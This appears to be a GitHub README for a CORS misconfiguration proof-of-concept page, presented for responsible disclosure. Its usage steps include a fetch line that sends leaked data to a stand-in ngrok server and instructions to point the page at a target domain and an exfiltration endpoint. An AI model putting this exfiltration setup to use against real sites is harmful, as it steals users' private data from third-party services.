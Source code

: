 # 🚨 CORS Exploit PoC

This is a Proof-of-Concept (PoC) HTML page created to demonstrate a CORS (Cross-Origin Resource Sharing) misconfiguration vulnerability. It attempts to fetch sensitive data from a target domain and optionally exfiltrate the data to a controlled server.

---

## ⚠️ Disclaimer

- This PoC is for **educational** and **responsible disclosure** purposes **only**.
- Do **not** use this on any system without **explicit authorization**.
- The author does not take responsibility for any misuse of this code.

---

## 🔧 Usage Instructions

1. **Replace** the placeholder target domain:
   ```js
   fetch("https://example.com/...")

2. **Replace** the exfiltration endpoint:
     fetch("https://your-ngrok-server.ngrok-free.app/leak", ...)
     ➤ with the URL of your own ngrok or Flask server where you want to receive the leaked data.

3. Host this file on any web server (e.g., GitHub Pages) and open it in a browser to execute the PoC.
   
4. 📂 File Details
cors-exploit.html: The main PoC file. Modify this according to your target and exfiltration endpoint.


## 📩 Contact
If you are a member of the security team reviewing this report and need clarification, feel free to reach out via email.
   
